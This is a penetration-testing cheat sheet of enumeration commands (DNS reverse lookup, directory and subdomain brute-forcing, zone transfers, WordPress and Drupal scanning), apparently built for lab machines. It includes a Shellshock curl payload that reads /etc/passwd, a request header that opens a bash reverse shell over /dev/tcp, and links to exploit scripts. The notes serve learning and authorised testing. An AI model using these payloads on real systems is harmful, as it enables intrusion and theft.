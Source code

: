 # Enumeration

<details>

<summary>Reverse Lookup IP addresses to hostnames</summary>

### Using nslookup

```bash
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
;; communications error to 10.10.10.13#53: timed out
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

### Obtain IPs of machines that are up:

* save as `ips.txt`

```bash
nmap -sn --min-rate 5000 10.11.1.0/24 | grep "Nmap scan report for" | cut -d " " -f 5 > ips.txt
```

### Find possible DNS servers

```bash
nmap -p 53 --min-rate 5000 -iL ips.txt -oG dns_scan_results.txt
```

```bash
cat dns_scan_results.txt | grep "Ports: 53/open/" | cut -d " " -f 2 > dns_servers.txt
```

### Using DNSrecon to reverse lookup using different DNS servers:

```bash
for server in $(cat dns_servers.txt); do echo Using DNS server $server;dnsrecon -r 10.11.1.0/24 -n $server; done
```

### Reverse DNS lookup for one IP:

#### DNSRecon

```bash
dnsrecon -r 10.11.1.0/24 -n 10.11.1.220
```

#### Host command

```bash
host 10.11.1.116 10.11.1.220 
```

* Query dns server at 10.11.1.220 about the hostname of 10.11.1.116

</details>

<details>

<summary>Sitemap files</summary>

* /robots.txt

- /.htaccess

* /.htpasswd

- /sitemap.xml

</details>

<details>

<summary>Try /cgi-bin/ folder (Shellshock)</summary>

* If Status Code 200 --> possibly [shellshock](https://github.com/b4keSn4ke/CVE-2014-6271)
* If Status Code 403 --> try to enumerate `.sh`, `.cgi` files under `/cgi-bin/` directory

```bash
dirsearch -u http://10.11.1.71/cgi-bin -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt
```

* Commands for Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh
```

* Burp Shellshock POST Request

```bash
POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
Content-Length: 28

page=%2F&user=root&pass=root
```

* Nmap scan to search for shellshock

```bash
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/{location},cmd=ls <target>
```

broken by default, fix here: [https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s](https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s)

</details>

<details>

<summary>Dirsearch</summary>

<pre class="language-shell"><code class="lang-shell"><strong>dirsearch -u &#x3C;ip> -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
</strong></code></pre>

```shell
dirsearch -u 172.16.64.140/project --auth-type=basic --auth=YWRtaW46YWRtaW4= -X -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
dirsearch -u http://192.168.206.156:8000/ipphone_files --cookie="PHPSESSID=cjetu00a7pouinp0oj9v01r6r0" -X -i 200,301 -r -f -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

Through a socks proxy (chisel port forwarding + proxychains)

```bash
dirsearch -u http://127.0.0.1:8000 -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:1080
```

</details>

<details>

<summary>Subdomain Enumeration</summary>

```bash
ffuf -u http://shoppy.htb/ -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw <no. of words for default page>

gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain | grep -v 302
```

Can try wordlist`/usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`

* Add any subdomain you've found into `/etc/hosts`

```
10.10.57.54 dev.cmess.htm
```

</details>

<details>

<summary>Wpscan</summary>

```bash
wpscan --url somewebsite.com --enumerate u,ap,at,cb,dbe
```

* add in `--disable-tls-checks` for HTTPS sites

</details>

<details>

<summary>Droopescan (Drupal)</summary>

```bash
droopescan scan drupal -u http://10.10.10.9/ -t 32
```

Drupal 7 <= 7.57

* [https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py)

</details>

<details>

<summary>Gobuster</summary>

```shell
gobuster dir -u <target site> -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200 -q
```

```shell
gobuster dir -x php,txt -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 200 -q
```

```
gobuster -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'
```

```bash
gobuster dir -k -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -t 20
```

### Enumerate API (often followed by version number, v1, v2)

```bash
#api --> often followed by a version number
#	/api_name/v1
#	/api_name/v2
#pattern file:
#	{GOBUSTER}/v1
#	{GOBUSTER}/v2
gobuster dir -u http://192.168.50.16:5002 -w 
```

</details>

<details>

<summary>Testing file extensions for IIS servers</summary>

```
asp
aspx
config
php
```

</details>

<details>

<summary>Wfuzzf</summary>

```bash
wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
```

```
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
```

#### Post req:

```bash
wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ" --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)
```

#### Fuzzing cookies:

```bash
wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ
```

</details>

<details>

<summary>Perform Zone Transfer</summary>

* Scan a domain, specifying the nameserver and performing a zone transfer

```bash
dnsrecon --domain example.com --name_server nameserver.example.com --type axfr
```

</details>

<details>

<summary>Dig</summary>

### Zone Transfer

```bash
dig @192.168.194.165 AXFR heist.offsec
```

```bash
dig www.example.com + short
```

* For IPv4

```bash
dig -4 www.example.com 
```

```bash
dig www.example.com MX
```

```bash
dig www.example.com NS
```

```bash
dig www.example.com> SOA
```

</details>

<details>

<summary>DNSEnum</summary>

```bash
dnsenum 192.168.194.165
```

</details>

<details>

<summary>SSH Username Enum</summary>

* Linux with OpenSSH < 7.7

[https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py](https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py)

```
python ssh-username-enum.py <IP> -w <wordlist>
```

* Wordlist: [https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt](https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt)

</details>

<details>

<summary>Fuzzing Endpoints (Searching for LFI)</summary>

Eg: [https://streamio.htb/admin/?user=](https://streamio.htb/admin/?user=), [https://streamio.htb/admin/?message=](https://streamio.htb/admin/?message=)

```bash
# Fuzzing other endpoints
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' -b PHPSESSID=mjsjfrb7o82c82voh1l7l964ek --fs <error page file size>
```



</details>
